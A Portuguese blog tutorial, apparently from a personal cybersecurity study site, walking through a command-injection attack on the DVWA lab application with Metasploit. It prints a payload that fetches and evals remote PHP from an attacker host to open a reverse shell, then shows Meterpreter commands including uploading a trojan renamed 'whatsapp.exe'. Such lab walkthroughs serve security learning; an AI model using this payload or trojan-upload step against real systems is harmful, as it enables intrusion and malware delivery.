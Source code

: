```yaml
---
layout: default
title: Command-Injection com Metasploit
permalink: /artigos/07.md/
---
```

  
  
<p align="center">
 <a href="https://carineconstantino.github.io/cybersecurity/">Página Inicial</a>
 || 
 <a href="https://carineconstantino.github.io/cybersecurity/">Próximo</a>  
 || 
 <a href="https://carineconstantino.github.io/cybersecurity/artigos/07.md">Anterior</a>   
</p>

## Command-Injection com Metasploit

O ataque **Command-Injection** permite a execução de comandos remotamente no sistema operacional a partir de uma aplicação que não faz a validação dos dados de entrada. Quando o ataque é bem sucedido, o comando é executado com o mesmo nível de privilégios da aplicação, ou seja, se a aplicação é executada no sistema operacional com privilégios administrativos, o comando também será executado com esse nível de acesso. 

## Executando o Command-Injection

No exemplo, eu continuo utilizando a aplicação vulnerável [DVWA](http://www.dvwa.co.uk) e a máquina Kali virtualizada com VirtualBox. No metasploit, o módulo _exploit/multi/script/web_delivery_ oferece o exploit do [shell-reverso](https://carineconstantino.github.io/cybersecurity/artigos/03.md). Em um ataque de **command-injection**, o [shell-reverso](https://carineconstantino.github.io/cybersecurity/artigos/03.md) é utilizado para abrir o backdoor com o sistema atacado.

A aplicação [DVWA](http://www.dvwa.co.uk) é construida em PHP e essa será a opção de escolha do _targets_ 

![targets](https://carineconstantino.github.io/cybersecurity/artigos/imagens/targets.png)

O módulo do **shell-reverso** é para PHP e a porta local de conexão é padrão 4444. Quando o **command-injection** for executado, a máquina Kali receberá conexões nessa porta e poderá enviar um outro payload, por exemplo, um arquivo de vírus para infectar a máquina. 

![web_delivery_module](https://carineconstantino.github.io/cybersecurity/artigos/imagens/web_delivery_module.png)

Ao executar o módulo, o payload do command-injection é criado, conforme a linha abaixo: 

```php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.0.26:8080/0piSzsUEIk5'));"```

Na aplicação DVWA, o payload é adicionado junto com uma entrada legítima disponível no site. 

![dvwa_command_injection](https://carineconstantino.github.io/cybersecurity/artigos/imagens/dvwa_command_injection.png)

A máquina Kali recebe a conexão pois a aplicação não validou a entrada do comando e passou a execução para o servidor, permitindo abrir o backdoor na porta 4444

![conexao_reversa](https://carineconstantino.github.io/cybersecurity/artigos/imagens/conexao_reversa.png)

O comando _sessions_ confirma a sessão aberta do **shell-reverso**

![sessions](https://carineconstantino.github.io/cybersecurity/artigos/imagens/sessions.png)

## Meterpreter

A manipulação da máquina remota é feita com o excelente [Meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) através do comando ```sessions -i 1```

![sessions_1](https://carineconstantino.github.io/cybersecurity/artigos/imagens/sessions_1.png)

Dentro do [Meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) diversos comandos estão disponíveis para exploração da máquina da vítima. 
No exemplo abaixo, são executados os comandos ```getwd```, ```ls -l```, ```upload /root/trojan.exe whatsapp.exe```

![meterpreter_attack](https://carineconstantino.github.io/cybersecurity/artigos/imagens/meterpreter_attack.png)

O comando ```upload``` permite enviar arquivos para a máquina atacada e a partir desse ponto, o céu é o limite para o atacante. 

